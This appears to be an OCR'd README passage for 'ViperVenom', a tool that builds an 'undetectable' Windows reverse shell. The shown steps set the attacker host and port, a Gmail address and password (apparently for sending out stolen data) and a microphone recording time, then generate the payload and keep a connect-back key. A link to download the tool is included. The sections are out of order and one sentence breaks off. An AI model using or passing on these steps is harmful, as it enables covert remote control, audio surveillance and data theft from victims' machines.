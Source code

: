 ```
            2) generator/vipervenom/tcp/revshell        Undetectable ViperVenom Windows Reverse Shell
```
To use this generator, type "use" with its name, just like this
```
/ViperVenom/ > use generator/vipervenom/tcp/payload
(Generator) Windows/ViperVenom/TCP/Payload > 
```
Now, you have to set everything yourself, host IP address, port to listen to, Gmail address, Gmail password (don't worry, we do not log anything you do in this software. At all),
microphone record seconds, and filename, here's a quick walkthrough
```
(Generator) Windows/ViperVenom/TCP/Payload > set host YOURIP
(Generator) Windows/ViperVenom/TCP/Payload > set port YOURPORT
(Generator) Windows/ViperVenom/TCP/Payload > set gmailaddr YOURGMAILADDR@gmail.com
(Generator) Windows/ViperVenom/TCP/Payload > set gmailpass YOURPASSWORD
(Generator) Windows/ViperVenom/TCP/Payload > set filename YOURFILENAME.py
(Generator) Windows/ViperVenom/TCP/Payload > set sleep SECONDS
```
Once you are done setting it up, you can recheck everything by typing "options", just like here
```
EXAMPLE:

(Generator) Windows/ViperVenom/TCP/Payload > options
HOST=10.10.1.107
PORT=443
GAMILADDR=vultrlabs@example.com
GAMILPASS=P@$$W0RD_ON3
FILENAME=NULL.py
SLEEP=60
```
To generate the payload
```
(Generator) Windows/ViperVenom/TCP/Payload > generate
[*] Generating Payload
.
..
...
running build
running build_exe

...
[*] Done Generating Payload.
```
PLEASE store this random key somewhere safe, copy the whole line including the b letter and the quotes and paste it in a note, you'll require this key so the target machine
will connect back to do, otherwise, 

# Setting Up ViperVenom

After starting the software, to see which options are available, type "list" or "show list", the list of available options will be printed out
```
Landing/ViperVenom/ > show list

    Listeners             Description
    ---------             -----------
    1                      ViperVenom Payload Listener


    Generators            Description
    ----------            -----------
    2                      ViperVenom Payload Generator
```

[Vultrlabs]: https://vultrlabs.net
[Download file]: https://github.com/Vultrlabs/ViperVenom/archive/refs/heads/main.zip